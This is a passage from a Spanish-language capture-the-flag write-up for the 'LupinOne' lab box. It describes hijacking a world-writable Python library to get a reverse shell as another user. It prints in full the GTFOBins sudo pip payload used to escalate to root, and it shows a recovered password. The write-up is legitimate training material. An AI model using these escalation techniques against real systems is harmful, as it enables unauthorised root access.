Y vemos algo raro, una ruta `/usr/lib/python39.zip`

Vemos que esta ruta no existe en el sistema.
```console
icex64@LupinOne:~$ ls -la /usr/lib/python39.zip
ls: cannot access '/usr/lib/python39.zip': No such file or directory
```

Pero no tengo permisos para crear una carpeta en `/usr/lib`
```console
icex64@LupinOne:~$ mkdir /usr/lib/python39.zip
mkdir: cannot create directory '/usr/lib/python39.zip': Permission denied
```

Podemos enumerar los archivos en el directorio personal de trabajo de `arsene`
```console
icex64@LupinOne:/home/arsene$ ls -la
total 40
drwxr-xr-x 3 arsene arsene 4096 Oct  4  2021 .
drwxr-xr-x 4 root   root   4096 Oct  4  2021 ..
-rw------- 1 arsene arsene   47 Oct  4  2021 .bash_history
-rw-r--r-- 1 arsene arsene  220 Oct  4  2021 .bash_logout
-rw-r--r-- 1 arsene arsene 3526 Oct  4  2021 .bashrc
drwxr-xr-x 3 arsene arsene 4096 Oct  4  2021 .local
-rw-r--r-- 1 arsene arsene  807 Oct  4  2021 .profile
-rw------- 1 arsene arsene   67 Oct  4  2021 .secret
-rw-r--r-- 1 arsene arsene  118 Oct  4  2021 heist.py
-rw-r--r-- 1 arsene arsene  339 Oct  4  2021 note.txt
```

Y encontramos una nota.
```console
icex64@LupinOne:/home/arsene$ cat note.txt 
Hi my friend Icex64,

Can you please help check if my code is secure to run, I need to use for my next heist.

I dont want to anyone else get inside it, because it can compromise my account and find my secret file.

Only you have access to my program, because I know that your account is secure.

See you on the other side.

Arsene Lupin.
```

Habla de ver si el código no es seguro, blablabla, pero habla de un archivo secreto.

Que es el que tiene en su directorio personal que no podemos abrir.
```console
icex64@LupinOne:/home/arsene$ cat .secret 
cat: .secret: Permission denied
```

El archivo pesa 67 bytes por lo cual contiene algo.

Buscando sobre la dependencia de `webbrowser`  acabé encontrando una cosa interesante.

Y es que tenemos permiso de escritura, por lo cual podemos modificar esta librería e inyectar un código malicioso.
```console
icex64@LupinOne:/home/arsene$ find / -type f -name "webbrowser*" 2>/dev/null
/usr/lib/python3.9/webbrowser.py
/usr/lib/python3.9/__pycache__/webbrowser.cpython-39.pyc
icex64@LupinOne:/home/arsene$ ls -la /usr/lib/python3.9/webbrowser.py
-rwxrwxrwx 1 root root 24087 Oct  4  2021 /usr/lib/python3.9/webbrowser.py
```

Vamos a añadir este código, para que según inicialice esta dependencia se envíe una reverse shell a mi máquina de atacante por el puerto 443.


Ahora con `pwncat-cs` me voy a poner en escucha por el puerto 443.

```console
$ sudo pwncat-cs -lp 443

[12:32:28] Welcome to pwncat 🐈!                                           __main__.py:164
bound to 0.0.0.0:443 ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━

```

Ejecuto como `arsene` el script.
```console
icex64@LupinOne:/home/arsene$ sudo -u arsene /usr/bin/python3.9 /home/arsene/heist.py
stty: 'standard input': Inappropriate ioctl for device
```

Y podemos ver que ganamos acceso como `arsene`
```console
(remote) arsene@LupinOne:/home/arsene$ id
uid=1000(arsene) gid=1000(arsene) groups=1000(arsene),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),109(netdev)
```

# Privilege Escalation
## Abusing sudo privilege in `pip`
La nota contiene una credencial.
```console
(remote) arsene@LupinOne:/home/arsene$ cat .secret 
I dont like to forget my password "rQ8EE"UK,eV)weg~*nd-`5:{*"j7*Q"
```

Esta credencial no es de `root`, es del propio usuario `arsene`
```console
(remote) arsene@LupinOne:/home/arsene$ su root
Password: 
su: Authentication failure
(remote) arsene@LupinOne:/home/arsene$ su arsene
Password: 
arsene@LupinOne:~$ 
```

Rápidamente vemos que tenemos permisos para ejecutar como `root` el comando `pip`
```console
(remote) arsene@LupinOne:/home/arsene$ sudo -l
Matching Defaults entries for arsene on LupinOne:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User arsene may run the following commands on LupinOne:
    (root) NOPASSWD: /usr/bin/pip
```

Una rápida búsqueda en [GTFOBins](https://gtfobins.github.io/) nos revela que podemos escalar privilegios fácilmente en esta situación.


Simplemente vamos a copiar y a pegar el payload que se nos incluye.
```bash
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
```

```console
(remote) arsene@LupinOne:/home/arsene$ TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip install $TF
Processing /tmp/tmp.RH0TsNx4x7
\[\](remote)\[\] \[\]root@LupinOne\[\]:\[\]/tmp/pip-req-build-krphgk6r\[\]$ id
uid=0(root) gid=0(root) groups=0(root)
```

La bash se ve un poco mal pero podemos solucionar eso ejecutando una pseudo-consola interactiva con `script /dev/null -c bash`
```console
\[\](remote)\[\] \[\]root@LupinOne\[\]:\[\]/tmp/pip-req-build-krphgk6r\[\]$ script /dev/null -c bash
Script started, output log file is '/dev/null'.
root@LupinOne:/tmp/pip-req-build-krphgk6r# cd /root/
```

Y ya podemos leer la flag de `root`, muy bonita también.
```console
root@LupinOne:~# cat root.txt 
*,,,,,,,,,,,,,,,,,,,,,,,,,,,,,(((((((((((((((((((((,,,,,,,,,,,,,,,,,,,,,,,,,,,,,
,                       .&&&&&&&&&(            /&&&&&&&&&                       
,                    &&&&&&*                          @&&&&&&                   
,                *&&&&&                                   &&&&&&                
,              &&&&&                                         &&&&&.             
,            &&&&                   ./#%@@&#,                   &&&&*           
,          &%&&          &&&&&&&&&&&**,**/&&(&&&&&&&&             &&&&          
,        &@(&        &&&&&&&&&&&&&&&.....,&&*&&&&&&&&&&             &&&&        
,      .& &          &&&&&&&&&&&&&&&      &&.&&&&&&&&&&               &%&       
,     @& &           &&&&&&&&&&&&&&&      && &&&&&&&&&&                @&&&     
,    &%((            &&&&&&&&&&&&&&&      && &&&&&&&&&&                 #&&&    
,   &#/*             &&&&&&&&&&&&&&&      && #&&&&&&&&&(                 (&&&   
,  %@ &              &&&&&&&&&&&&&&&      && ,&&&&&&&&&&                  /*&/  
,  & &               &&&&&&&&&&&&&&&      &&* &&&&&&&&&&                   & &  
, & &                &&&&&&&&&&&&&&&,     &&& &&&&&&&&&&(                   &,@ 
,.& #                #&&&&&&&&&&&&&&(     &&&.&&&&&&&&&&&                   & & 
*& &                 ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&             &(&
*& &                 ,&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&            & &
*& *              &&&&&&&&&&&&&&&&&&&@.                 &&&&&&&&             @ &
*&              &&&&&&&&&&&&&&&&&&@    &&&&&/          &&&&&&                & &
*% .           &&&&&&&&&&&@&&&&&&&   &  &&(  #&&&&   &&&&.                   % &
*& *            &&&&&&&&&&   /*      @%&%&&&&&&&&    &&&&,                   @ &
*& &               &&&&&&&           & &&&&&&&&&&     @&&&                   & &
*& &                    &&&&&        /   /&&&&         &&&                   & @
*/(,                      &&                            &                   / &.
* & &                     &&&       #             &&&&&&      @             & &.
* .% &                    &&&%&     &    @&&&&&&&&&.   %@&&*               ( @, 
/  & %                   .&&&&  &@ @                 &/                    @ &  
*   & @                  &&&&&&    &&.               ,                    & &   
*    & &               &&&&&&&&&& &    &&&(          &                   & &    
,     & %           &&&&&&&&&&&&&&&(       .&&&&&&&  &                  & &     
,      & .. &&&&&&&&&&&&&&&&&&&&&&&&&&&&*          &  &                & &      
,       #& & &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&        &.             %  &       
,         &  , &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&.     &&&&          @ &*        
,           & ,, &&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&.  /&&&&&&&&    & &@          
,             &  & #&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&&&&&&@ &. &&            
,               && /# /&&&&&&&&&&&&&&&&&&&&&&&&&&&&&&# &&&# &# #&               
,                  &&  &( .&&&&&&&&&&&&&&&&&&&&&&&&&&&  &&  &&                  
/                     ,&&(  &&%   *&&&&&&&&&&%   .&&&  /&&,                     
,                           &&&&&/...         .#&&&&#                           

3mp!r3{congratulations_you_manage_to_pwn_the_lupin1_box}
See you on the next heist.
```

¡Y ya estaría!

Happy Hacking! 🚀